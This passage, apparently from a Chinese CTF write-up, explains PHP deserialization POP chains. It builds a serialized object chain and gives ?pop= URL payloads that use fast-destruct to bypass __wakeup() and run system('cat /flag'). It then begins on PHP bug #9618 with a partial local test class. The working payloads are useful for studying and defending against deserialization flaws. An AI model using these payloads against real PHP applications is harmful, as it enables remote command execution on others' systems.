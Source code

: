 ```
$a=new sorry();
$b=new show();
$c=new secret_code();
$d=new fine();
$a->hint=$b;
$b->ctf=$c;
$e=new sorry();
$e->hint=$d;
$c->code=$e;
$e->key=$d;
echo (serialize($a));
#O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";N;s:4:"hint";O:4:"show":1:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:2:" /";}s:4:"hint";r:10;}}}}
```

直接传进去毫无疑问会因为die()而终止，这里我们就可以用fast-destruct这个技巧使destruct提前发生以绕过wakeup()，比如我们可以减少一个} ：

```
?pop=O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";N;s:4:"hint";O:4:"show":1:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"cat /flag";}s:4:"hint";r:10;}}}
```

或者在r;10;后面加一个1：

```
?pop=O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";N;s:4:"hint";O:4:"show":1:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"cat /flag";}s:4:"hint";r:10;1}}}}
```

都可以实现wakeup绕过

# php issue#9618

[php issue#9618](https://github.com/php/php-src/issues/9618)提到了最新版wakeup()的一种bug，可以通过在反序列化后的字符串中包含字符串长度错误的变量名使反序列化在__wakeup之前调用__destruct()函数，最后绕过__wakeup()，版本：

- 7.4.x -7.4.30
- 8.0.x

本地起一个环境：

```
<?php
highlight_file(__FILE__);
class A
{
    public $info;
    private $end = "1";

    public function __destruct()
    {
        $this->info->func();
        echo "des";
    }
}

class B
{
    public $znd;

    public function __wakeup()
    {
        $this->znd = "exit();";
        echo '__wakeup';
```